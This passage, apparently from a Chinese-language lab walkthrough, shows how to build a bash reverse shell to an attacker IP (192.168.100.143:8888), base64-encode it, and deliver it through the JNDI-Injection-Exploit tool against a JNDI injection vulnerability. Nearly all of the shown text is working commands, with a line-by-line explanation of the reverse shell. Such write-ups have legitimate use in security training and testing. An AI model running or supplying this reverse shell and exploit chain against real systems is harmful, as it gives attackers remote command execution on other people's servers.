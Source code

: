 ![image-20230917110429716](assets/1697159020_6528976c1474eb4f4ea24.png)

##### 3.将bash反弹shell命令编码备用

bash 命令反弹shell

```
bash -i >& /dev/tcp/192.168.100.143/8888 0>&1
```

`bash`: 启动一个 Bash shell。

`-i`: 打开一个交互式 shell 会话，允许用户输入命令和获取输出。

`>& /dev/tcp/192.168.100.143/8888`: 将标准输出和标准错误输出重定向到指定的 IP 地址为`192.168.100.143`、端口号为 \`8888 ’ TCP 连接。换句话说，它将尝试建立一个与该 IP 地址和端口号连接的网络套接字，并将输出发送到该连接。

`0>&1`: 将标准输入（文件描述符 0）重定向到标准输出（文件描述符 1），意味着输入和输出都将通过网络套接字进行传输。

base64编码：

```
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEwMC4xNDMvODg4OCAwPiYx
```

##### 4.使用JNDIExploit进行漏洞利用

将上面base64编码后的bash命令填入指定位置

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar　-C "bash -c {echo,Base64编码后的Payload} | {base64,-d} | {bash,-i}" -A "攻击机IP"

java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEwMC4xNDMvODg4OCAwPiYx}|{base64,-d}|{bash,-i}" -A "192.168.100.143"
```

![image-20230908111110779](assets/1697159020_6528976c6bbc95244b531.png)
